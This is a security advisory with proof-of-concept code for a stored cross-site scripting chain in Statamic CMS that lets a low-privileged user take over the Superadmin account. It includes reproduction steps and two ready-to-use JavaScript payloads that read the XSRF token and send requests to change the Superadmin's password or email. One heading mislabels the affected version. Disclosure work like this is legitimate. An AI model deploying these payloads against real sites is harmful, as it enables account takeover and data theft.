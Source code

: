 # GHSA-g59r-24g3-h7cm
Statamic Privilege Escalation PoC

> [!IMPORTANT]
> **Responsible Disclosure Notice**  
> This vulnerability was reported to the vendor/maintainer ([Statamic](https://github.com/statamic)) following a responsible disclosure process.  
> The maintainer was given more than **90 days** to acknowledge the security advisory and provide a fix, in line with industry-standard disclosure policies.  
> Despite multiple attempts to establish communication, there was **no cooperation, no response, and a clear lack of good will from the maintainer** to address the issue.
>  
> The **CVE has not yet been assigned solely due to the unresponsiveness of the maintainer**, not due to a lack of technical validity or impact.  
> The CVE request is currently in progress and will be finalized through public disclosure channels.


### Summary
There is a critical vulnerability in the Laravel-based content management system (CMS) Statamic that can be exploited to take over a Superadmin account. This issue comes from a combination of stored Cross-Site Scripting (XSS) vulnerabilities, which remain exploitable even in the latest version of the CMS. These vulnerabilities allow attackers to run malicious JavaScript in the victim's browser. A low-privileged user can inject harmful content into the CMS, setting a trap for the Superadmin. When the Superadmin accesses this content, the exploit runs in their session, enabling the attacker to gain higher privileges and potentially take over the system.

This problem is also related to the lack of proper server-side validation of the X-CSRF-TOKEN used in PATCH requests, which makes it easier for the attacker to change important account details like the Superadmin's password or email address.

This advisory explains the technical details, provides proof-of-concept exploits, and discusses the risks posed by these vulnerabilities, focusing on how the attack can be carried out.

### Vulnerability Overview
#### Severity: **Critical**
#### Affected Versions: **Up to and including the latest version 5.22.0**

This vulnerability is a chain attack that leverages stored XSS to escalate privileges within the CMS. It is essential to note that for this attack to be successful, the Superadmin must either click on a malicious link sent by an attacker or simply visit a compromised Collection or Taxonomy within the CMS. Once the Superadmin interacts with the infected content, the malicious JavaScript code is executed in their browser, leading to one of two potential outcomes:

1. **In versions ≤ 5.21.0**: The attacker can automatically change the Superadmin's password without requiring the current password, effectively locking the legitimate user out of their account.
2. **In version 5.22.0**: Although the password change mechanism has been secured, the attacker can still change the email address associated with the Superadmin account. This allows the attacker to initiate a password reset, gain control of the account, and access the system with the highest level of privileges.


### Steps to Reproduce

The following steps outline how to reproduce the vulnerability that allows for Superadmin account takeover via Stored Cross-Site Scripting (XSS) and insufficient X-CSRF-TOKEN validation:

1. **Create a Superadmin Account ("User1"):**
   - If this is a fresh installation, create a Superadmin account within the CMS. This account will be referred to as "User1."

2. **Create a Low-Privileged User ("User2"):**
   - Using the Superadmin account ("User1"), create a new user with low-level privileges, referred to as "User2."
   - Assign "User2" access to the Control Panel, the User list, and grant read-write permissions to Collections and/or Taxonomies.

3. **Initiate a Session as "User2":**
   - Log in as "User2" to the CMS.

4. **Inject Malicious Script:**
   - Create a new Collection or Taxonomy within the CMS as "User2."
   - Inject a malicious JavaScript payload into one of the fields that will be stored and rendered when viewed by the Superadmin.

5. **Trigger the Exploit:**
   - Wait for "User1" (the Superadmin) to access the compromised Collection or Taxonomy. This can be done by either:
     - Sending a phishing link that directs "User1" to the infected content.
     - Simply waiting for "User1" to browse the Collections or Taxonomies naturally.

6. **Observe the Outcome:**
   - Depending on the CMS version:
     - **Version ≤ 5.21.0:** The malicious script will change the Superadmin's password without requiring the current password, effectively locking the legitimate user out of their account.
     - **Version 5.22.0:** The malicious script will change the Superadmin's email address, allowing the attacker to initiate a password reset and gain control over the account.

These steps demonstrate how a low-privileged user can set up a trap for the Superadmin by exploiting the stored XSS vulnerability. The lack of proper server-side validation of the X-CSRF-TOKEN in PATCH requests makes it possible to carry out this attack, leading to a complete takeover of the Superadmin account.


### Details
The root cause of this vulnerability lies in insufficient input sanitization and validation across several components of the CMS. Specifically, the vulnerability allows for the injection of JavaScript code into forms used for creating or editing Collections, Taxonomies or Forms. These forms do not properly sanitize user input, allowing an attacker to store malicious scripts that execute when a Superadmin interacts with the compromised content.

In previous versions of the CMS, such as version 4.42.0, user inputs in certain views were not properly sanitized before being rendered on the page. For instance, in the `resources/views/partials/nav-main.blade.php` file, the variable `$item->name()` was rendered without adequate escaping or encoding. This lack of sanitization allowed attackers to inject arbitrary JavaScript code.

It looks like the vulnerability related to improper sanitization of user input, such as those found in version 4.42.0 of the Statamic CMS, is still present in the software, despite partial mitigations that have been implemented. In previous versions, like 4.42.0, user input in certain views, including the `resources/views/partials/nav-main.blade.php` file, were not adequately sanitized before being rendered on the page.

At the time of reporting the Multiple Stored Cross-Site Scripting vulnerability, version 4.42.0 was the latest available version of the Statamic CMS. Now, the software has been updated to version 5.22.0. While some improvements, such as the introduction of the `v-pre` directive, have been made to mitigate XSS risks in specific components, these mitigations appear to be incomplete. The underlying issue of inadequate input sanitization persists in other parts of the software.

For further details on the changes made, including the use of `v-pre`, please refer to the Reference section at the bottom of this Security Advisory. There is a link to a commit that shows the differences between certain versions of the affected file, highlighting the partial mitigation that was applied.

### PoC
#### Scenario 1: Superadmin Password Change (Version ≤ 5.21.0)
In versions prior to the latest update, the CMS's password change mechanism did not require the current password. This allows an attacker to execute a stored XSS payload that automatically changes the Superadmin's password. The attack can be triggered by the Superadmin merely visiting a compromised Collection or Taxonomy or clicking on a malicious link.

**Exploit:**

```javascript
{{constructor.constructor("(function(){function getXsrfToken(){var token=decodeURIComponent(document.cookie.match(/XSRF-TOKEN=([^;]+)/)[1]);return token.endsWith('%3D')?token.replace(/%3D$/, '='):token;}var req=new XMLHttpRequest();req.onload=function(){var changeReq=new XMLHttpRequest();changeReq.open('PATCH','http://0.0.0.0/cp/users/<Superadmin's UUID>/password',true);changeReq.setRequestHeader('Content-Type','application/json');changeReq.setRequestHeader('X-Requested-With','XMLHttpRequest');changeReq.setRequestHeader('X-XSRF-TOKEN',getXsrfToken());changeReq.send(JSON.stringify({current_password:null,password:'987654321',password_confirmation:'987654321'}));};req.open('GET','/cp/users/<Superadmin's UUID>/edit',true);req.send();})()")()}}
```

#### Scenario 2: Superadmin Email Address Change (Version ≤ 5.21.0)
In the latest version (5.22.0), the password change mechanism was hardened by requiring the current password. However, the stored XSS vulnerability still allows an attacker to change the email address associated with the Superadmin account. By altering the email address, the attacker can initiate a password reset process, gaining control over the account.

**Exploit:**

```javascript
{{constructor.constructor("(function(){function getXsrfToken(){var token=decodeURIComponent(document.cookie.match(/XSRF-TOKEN=([^;]+)/)[1]);return token.endsWith('%3D')?token.replace(/%3D$/, '='):token;}var req=new XMLHttpRequest();req.onload=function(){var changeReq=new XMLHttpRequest();changeReq.open('PATCH','http://0.0.0.0/cp/users/<Superadmin's UUID>',true);changeReq.setRequestHeader('Content-Type','application/json');changeReq.setRequestHeader('X-Requested-With','XMLHttpRequest');changeReq.setRequestHeader('X-XSRF-TOKEN',getXsrfToken());changeReq.send(JSON.stringify({name:'wojt',email:'wojt.chwala@gmail.com',roles:[],groups:[],id:'9f4d7960-bf66-4af4-8c30-b09eb24e06ea'}));};req.open('GET','/cp/users/<Superadmin's UUID>/edit',true);req.send();})()")()}}
```

### Impact
The successful exploitation of this vulnerability allows an attacker to gain full control over the Superadmin account, leading to:

- Complete administrative access to the CMS.
- Potential for lateral movement within the application.
- Significant risk of data leakage, modification, or deletion.
- Undermining the integrity and confidentiality of the entire Statamic CMS ecosystem.

### References
- https://github.com/statamic/cms/pull/9256/commits/d9f1e916556e749a03fba6163de6cd67c3830ffd
